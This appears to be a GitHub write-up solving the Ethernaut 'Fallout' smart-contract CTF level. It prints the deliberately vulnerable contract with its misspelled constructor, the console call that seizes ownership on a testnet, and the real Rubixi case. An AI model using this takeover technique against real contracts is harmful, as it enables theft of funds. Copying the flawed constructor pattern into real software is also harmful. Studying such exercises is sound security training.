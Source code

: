 ## Ethernaut-solution
---

### 2.FallOut

Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender; //msg is global variable represent transaction. sender is transaction.
    //everyone can be owner.(changeable internall state of owner)
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

await contract.owner()
'0x0000000000000000000000000000000000000000'<br>
player<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

contract.abi<br>
(6) [{…}, {…}, {…}, {…}, {…}, {…}]<br>
//ABIをよくみるとfunctionがFalloutじゃなくて"Fal1out"になっているのがわかる。これではcontractは効力がない。

0: {inputs: Array(0), name: 'Fal1out', outputs: Array(0), stateMutability: 'payable', type: 'function', …}<br>
1: {inputs: Array(0), name: 'allocate', outputs: Array(0), stateMutability: 'payable', type: 'function', …}<br>
2: {inputs: Array(1), name: 'allocatorBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}<br>
3: {inputs: Array(0), name: 'collectAllocations', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}<br>
4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}<br>
5: {inputs: Array(1), name: 'sendAllocation', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}<br>
length: 6<br>
[[Prototype]]: Array(0)<br>

//contract作成。everybody is gonna be owner! 

```
contract.Fal1out()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
addListener: ƒ (t,e,r)
emit: ƒ (t,e,r,n,o,a)
listeners: ƒ (t)
off: ƒ (t,e,r,n)
on: ƒ (t,e,r)
once: ƒ (t,e,r)
removeAllListeners: ƒ (t)
removeListener: ƒ (t,e,r,n)
_events: o {}
[[Prototype]]: Promise
[[PromiseState]]: "pending"
[[PromiseResult]]: undefined
```

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 <br>
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c

await contract.owner()<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'<br>
player<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

---
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.